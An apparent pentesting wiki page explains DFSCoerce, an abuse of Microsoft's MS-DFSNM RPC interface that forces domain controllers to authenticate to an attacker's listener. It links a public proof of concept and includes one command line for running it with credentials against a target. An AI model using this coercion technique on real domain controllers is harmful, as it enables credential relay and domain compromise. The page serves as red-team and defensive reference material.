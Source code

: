 # MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)) and is available as an RPC interface. That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case (as of July 6th, 2022), the following methods were detected vulnerable: `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot`. It is worth noting this coercion method only works against domain controllers.

## Practice

The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

## Resources

[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

[https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)
